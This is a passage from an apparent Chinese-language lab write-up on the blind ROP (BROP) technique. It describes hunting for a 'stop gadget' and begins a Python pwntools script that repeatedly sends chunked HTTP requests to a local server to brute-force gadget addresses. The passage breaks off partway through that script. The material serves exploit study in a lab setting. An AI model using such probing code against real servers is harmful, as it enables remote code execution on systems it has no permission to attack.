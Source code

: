 找到了一处stop gadget，但是好像陷入了巨大的循环出不来

![image-20220804193755146](BROP%E6%8A%80%E6%9C%AF%E7%A0%94%E7%A9%B6.assets/image-20220804193755146.png)

我们需要找到短暂stop，我们可以利用多次调用同一个plt函数让程序短暂的stop下来。接下来我们跳过这个地址，我们使用0x10*30作为一块的探索范围

```python
# -*- coding:utf-8 -*-
# from __future__ import print_function
import socket
from pwn import *

#context.log_level = "error"

base_payload = """
GET / HTTP/1.1
Host: 127.0.0.1
Transfer-Encoding: chunked\r\n\r\n"""


def get_stop_gadget(canary_offset,canary,buf_size,start_addr = 0x400000):
    stop_gadget = start_addr
    while 1:
        for i in range(1,45):
            s = connect("127.0.0.1", 80)
```